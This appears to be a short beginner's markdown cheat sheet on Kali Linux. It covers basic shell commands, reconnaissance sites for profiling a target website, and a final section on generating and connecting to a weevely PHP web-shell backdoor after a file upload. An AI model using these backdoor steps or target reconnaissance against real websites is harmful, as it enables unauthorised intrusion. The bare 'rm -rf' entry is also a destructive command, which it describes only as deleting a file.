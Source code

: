 
# kali linux commands

- prints current working directry, uses to redirect to open a file - `pwd`  

- list all files - `ls`

- open a folder - `cd`

- previous folder - `..`  

- prints descrption of a function - `man`   

-  Delete a file `rm -rf` 

- used to update like (winget in windows) - `sudo apt-get update` 

- upgrade kali linux - `sudo apt upgrade` 

- update kali linux - `sudo apt update`  

<h3 align="center"> ... </h3>  

## check IP address


- to check the information of the target website  
```
http://whois.domaintools.com/
```
- to check which techonology is used in target website  
```
http://toolbar.netcraft.com/site_report?url=
```

- which which website have same ipaddress  

>if we can hack into 1 we can hack all the other

```
https://www.robtex.com/ 
```  
- Using bing.com, search for `ip: [target ip]`
- <h3 align="center"> ... </h3> 
## FileUploadVulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.
